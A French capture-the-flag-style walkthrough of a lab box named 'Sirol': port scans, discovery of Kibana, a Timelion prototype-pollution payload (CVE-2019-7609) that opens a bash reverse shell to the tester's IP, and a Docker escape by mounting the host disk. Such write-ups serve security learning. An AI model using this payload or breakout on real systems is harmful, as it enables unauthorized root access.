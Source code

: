   # Sirol

	sudo masscan -p1-65535,U:1-65535 192.168.164.54 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.164.54 -oN nmap.txt
	feroxbuster --silent -u http://192.168.164.54
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)  
    53/tcp closed domain  
    80/tcp open http Apache httpd 2.4.25 ((Debian))  
    3306/tcp open mysql MariaDB (unauthorized)  
    5601/tcp open esmagent?
	
Il y a une calculatrice minimaliste sur le site du port 80. J'ai directement pensé à une SSTI, ou à une injection plus généralement, sans succès.

En revanche j'ai trouvé des informations sur le port 5601 : 

	nc 192.168.164.54 5601  
	help  
> 	HTTP/1.1 400 Bad Request

	nc 192.168.164.54 5601  
	GET / 
>	HTTP/1.1 302 Found   	
	</br>location: /app/kibana   	
	</br>kbn-name: kibana 
	</br>kbn-xpack-sig: 79b8a7336823018e37a1e121a9f3bb67  
	cache-control: no-cache
	</br>content-length: 0
	</br>connection: close  
	Date: Wed, 05 Jul 2023 09:11:42 GMT

Et sur mon navigateur le port 5601 redirige vers http://192.168.164.54:5601/app/kibana#/home?_g=()

Exploit trouvé pour cette version : https://github.com/mpgn/CVE-2019-7609

Vulnérabilité de type Prototype Pollution. Payload à injecter dans Timelion : 

	.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/192.168.45.214/443 0>&1\'");//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

On arrive directement en tant que root mais dans un container Docker. Il y a un fichier ".dockerenv" à la racine.

	...
	rlwrap nc -nvlp 443
	
Exemple de fiche à suivre pour s'échapper d'un container : https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation

La technique du mount fonctionne : 

	fdisk -l 
	mkdir /mnt/privesc
	mount /dev/sda1 /mnt/privesc
	cd /mnt/privesc
	cat /root/proof.txt
